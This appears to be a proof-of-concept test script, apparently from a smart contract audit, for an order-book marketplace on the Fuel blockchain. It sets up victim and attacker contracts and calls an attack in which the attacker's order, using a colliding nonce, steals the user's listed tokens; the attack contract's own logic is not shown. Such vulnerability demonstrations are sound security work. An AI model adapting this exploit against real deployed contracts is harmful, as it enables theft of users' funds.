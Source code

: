 ```rs
  example_asset.mint(Identity::ContractId(ContractId::from(test_attacker::CONTRACT_ID)), DEFAULT_SUB_ID, 1000);
  example_asset.mint(Identity::ContractId(ContractId::from(test_user::CONTRACT_ID)), DEFAULT_SUB_ID, 1000);

  // fund users of the protocol
  let SUB_ERC_1155_ID: SubId = 0x0000000000000000000000000000000000000000000000000000000000000001;
  example_asset.mint(Identity::ContractId(ContractId::from(test_attacker::CONTRACT_ID)), SUB_ERC_1155_ID, 1000);
  example_asset.mint(Identity::ContractId(ContractId::from(test_user::CONTRACT_ID)), SUB_ERC_1155_ID, 1000);
}

fn call_attack() {
  let SUB_ERC_1155_ID: SubId = 0x0000000000000000000000000000000000000000000000000000000000000001;

  let user = abi(TestUser, test_user::CONTRACT_ID);
  let attacker = abi(TestAttacker, test_attacker::CONTRACT_ID);

  let asset_id = AssetId::new(ContractId::from(test_asset::CONTRACT_ID), DEFAULT_SUB_ID);
  let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);

  let params = ExtraParams {
    extra_address_param: ZERO_ADDRESS,
    extra_contract_param: ZERO_CONTRACT_ID,
    extra_u64_param: 0,
  };

  let order = MakerOrderInput {
    side: Side::Sell,
    maker: Address::from(test_user::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 100,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
  };

  // user places ordinary sell order
  user.place_sell_order(order);


  let order = MakerOrderInput {
    side: Side::Sell,
    maker: Address::from(test_attacker::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 1,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
  };

  // attacker steal the user's tokens.
  attacker.execute_attack(order, 101);

```